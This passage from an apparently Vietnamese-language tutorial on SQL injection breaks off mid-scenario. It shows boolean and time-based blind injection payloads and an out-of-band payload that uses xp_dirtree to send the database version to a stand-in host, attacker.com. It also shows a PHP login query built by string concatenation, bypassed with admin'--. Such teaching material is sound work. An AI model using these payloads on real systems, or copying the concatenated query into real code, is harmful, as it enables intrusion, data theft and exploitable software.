**Boolean-based:**
```sql
-- Nếu admin user tồn tại, trang trả về content bình thường
' AND (SELECT COUNT(*) FROM users WHERE username='admin')=1--

-- Nếu không tồn tại, trang trả về content khác hoặc lỗi
' AND (SELECT COUNT(*) FROM users WHERE username='admin')=0--
```

**Time-based:**
```sql
-- Nếu điều kiện đúng, database sẽ "ngủ" 5 giây
' AND IF(1=1,SLEEP(5),0)--

-- Nếu sai, response trả về ngay lập tức
' AND IF(1=2,SLEEP(5),0)--
```

### **Out-of-band SQL Injection**
*"Loại gián điệp, dùng kênh bí mật"*

Sử dụng kênh khác (DNS, HTTP requests) để truyền dữ liệu:
```sql
'; EXEC xp_dirtree '\\attacker.com\share\'+@@version+'\'--
```

## Real-world Attack Scenarios: "Chuyện Có Thật Từ Đời Thực"

### Scenario 1: "Login Bypass Kinh Điển"

**Vulnerable Code:**
```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

**Attack:**
```
Username: admin'--
Password: anything
```

**Resulting Query:**
```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'
```

Result: Đăng nhập thành công mà không cần password!

### Scenario 2: "Data Extraction Nightmare"

**Vulnerable URL:**
```
https://shop.com/product?category=electronics
```
